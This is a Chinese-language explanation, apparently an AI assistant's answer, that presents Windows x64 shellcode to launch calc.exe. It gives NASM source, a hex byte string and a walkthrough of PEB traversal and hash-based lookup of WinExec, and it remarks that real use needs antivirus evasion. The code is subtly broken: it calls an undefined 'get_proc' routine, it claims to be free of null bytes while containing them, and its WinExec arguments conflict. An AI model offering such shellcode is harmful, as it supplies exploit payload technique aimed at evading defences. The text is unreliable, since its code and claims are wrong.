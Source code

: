 这里我展示一个经典的 Windows x64 弹出 calc.exe 计算器的 shellcode，并详细解释其工作原理：

```nasm
; Windows x64 shellcode - 执行 calc.exe
; 大小: 95 bytes

global _start
section .text
_start:
    ; 清零寄存器
    xor rcx, rcx            ; RCX = 0
    mul rcx                 ; RAX，RDX = 0
    
    ; 构建栈空间
    push rcx                ; 压入0用于字符串结尾
    mov rax, 'calc.exe'     ; 将calc.exe字符串加载到RAX
    push rax                ; 压入栈中
    mov rdx, rsp            ; RDX指向字符串
    
    ; 准备调用WinExec
    push rcx                ; uCmdShow = SW_HIDE (0)
    push rdx                ; lpCmdLine = "calc.exe"
    mov r9, rcx            ; 第四个参数 = 0
    mov r8, rcx            ; 第三个参数 = 0
    mov rdx, 0x5           ; 第二个参数 = SW_SHOW (5)
    mov rcx, rsp           ; 第一个参数 = 指向"calc.exe"
    
    ; 获取kernel32.dll基址
    mov r10, gs:[0x60]     ; 获取PEB
    mov r10, [r10 + 0x18]  ; 获取PEB_LDR_DATA
    mov r10, [r10 + 0x20]  ; 获取InMemoryOrderModuleList
    mov r10, [r10]         ; 跳过ntdll.dll
    mov r10, [r10]         ; 获取kernel32.dll基址
    mov r10, [r10 + 0x20]  ; 保存基址
    
    ; 查找WinExec地址
    mov eax, 0xEC0E4E8E    ; WinExec函数散列
    mov rcx, r10           ; 基址作为参数
    call get_proc          ; 获取WinExec地址
    
    ; 调用WinExec
    call rax               ; 执行WinExec("calc.exe", 5)
    
    ; 退出
    ret
```

这段shellcode的十六进制表示形式：
```
\x48\x31\xc9\x48\xf7\xe1\x51\x48\xb8\x63\x61\x6c\x63\x2e\x65\x78\x65\x50\x48\x89\xe2\x51\x52\x49\x89\xc9\x49\x89\xc8\x48\xc7\xc2\x05\x00\x00\x00\x48\x89\xe1\x65\x4c\x8b\x15\x60\x00\x00\x00\x4c\x8b\x52\x18\x4c\x8b\x52\x20\x4c\x8b\x12\x4c\x8b\x12\x4c\x8b\x52\x20\xb8\x8e\x4e\x0e\xec\x4c\x89\xd1\xe8\x0b\x00\x00\x00\xff\xd0\xc3
```

主要工作原理：

1. 寄存器准备：
- 首先清零关键寄存器
- 在栈上构建"calc.exe"字符串

2. 参数准备：
- 设置WinExec函数所需参数
- 包括命令行字符串和显示参数

3. 定位kernel32.dll：
- 通过PEB遍历加载模块列表
- 获取kernel32.dll基址

4. 函数地址解析：
- 使用散列查找WinExec函数地址
- 通过导出表进行函数名匹配

5. 执行命令：
- 调用WinExec函数
- 启动计算器程序

注意事项：
1. 这是一个基础演示shellcode
2. 实际使用时需要考虑免杀和环境适配
3. 代码中不包含空字节(0x00)以避免字符串处理问题
4. 使用相对寻址保证位置无关性

这个shellcode展示了Windows下shellcode的基本编写技巧，包括：
- 系统调用方式
- PEB遍历技术
- 函数地址解析
- 参数传递约定